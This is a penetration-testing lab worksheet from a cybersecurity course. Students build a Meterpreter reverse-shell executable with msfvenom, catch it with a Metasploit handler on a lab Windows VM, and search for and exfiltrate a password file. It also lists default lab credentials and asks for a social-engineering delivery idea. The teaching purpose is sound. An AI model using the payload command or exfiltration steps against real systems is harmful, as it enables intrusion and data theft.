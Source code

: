 ## Activity File: Meterpreter Shells

In this activity, you will play the role of an independent penetration tester.

- You've been hired by Unhackable Inc. to perform a no view test against one of the company's servers to determine if the existing security controls are adequate.

- Your goal is to hack into Unhackable, Inc.'s web server and do the following: 
  - Search the remote filesystem for JPG files.
  - Search for the `password.txt` file and exfiltrate it to your local machine.

- As a bonus, the company has also asked that you:
  - Enumerate share running on the breached machine.
  - Check if the remote machine is running inside of a VM.
  - List all users on the breached machine.

You will be using the following machines: 

- Attacking machine: Kali Linux
   - Username: `root`
   - Password: `toor`

- Victim machine: DVW10 
   - Username: `IEuser`
   - Password: `Passw0rd!`

### Instructions

1. In Kali, create an executable payload for the target machine using `msfvenom`. You have been provided a template command to create your exploit.

   Type and run the following command, but remember to update the `LHOST` with the correct IP:

     - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe > hack.exe`

   **Note**: We'll cover custom payloads in the next lesson. For now, just know that this payload will create a malicious `hack.exe` file. 

2. Remember, once the payload is created, the attacker needs to get their payload onto the victim's computer. For this activity, assume that your payload reached the victim's machine via social engineering. 

   In one or two sentences, describe how you might have used social engineering to deliver this payload to the victim machine. 

      
3. In DVW10, verify that `hack.exe` is on the victim machine:

   * Navigate to the Downloads folder on the DVW10 VM and locate the EXE file.

     - Do not click on the file just yet. 

4. Return to Kali and run the commands needed to establish the reverse connection once the file has been executed:
   
   - Launch the MSFconsole in preparation for establishing the reverse connection. Then run the commands that will do the following tasks:

      - Launch MSFconsole.

      - Load the `exploit/multi/handler`.

      - Set the payload to `windows/meterpreter/reverse_tcp`.

      - View the payload's options.

      - Set `LHOST` to the IP of your Kali machine.

      - Set the `LPORT` to `4444` of your Kali machine. 

      - Verify the option settings took effect.

5. Run the exploit.

    - After you start the listener in Kali, go to the DVW10 machine and double-click on the `hack.exe` file to start the reverse shell..
  
    - Long idle times may cause the listener to close the connection. Double-clicking `hack.exe` forces the connection back up.

6. Now we will explore the exploited machine and begin our hunt for the target information.

   - As a warm-up, run the Meterpreter command that searches for files on the remote host.

   - If needed, read the help menu for the `search` command before using it.

     - Run: `search -h` 

7. Let's begin the hunt:

   - Search the remote filesystem for all files ending with `.jpg`.

   - Search the remote filesystem for a file called `password`.
   
   - Exfiltrate this file from the DVW10 VM.
     

#### Bonus

Although security professionals are not expected to be familiar with every module and payload offered in Metasploit and Meterpreter, you will be expected to find the tools you need through online searches. 

Try to complete the following tasks: 

- Find and use a post-exploitation module that enumerates network shares (Windows Gather SMB Share Enumeration via Registry) on the DVW10 machine.

- Find and use a post-exploitation module that checks if the DVW10 computer is running inside a VM.

- Launch a command shell within Meterpreter and perform enumeration that displays user account information on the breached DVW10 computer.

What were the commands that you used? Be prepared to share with the class. 

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand. All Rights Reserved.
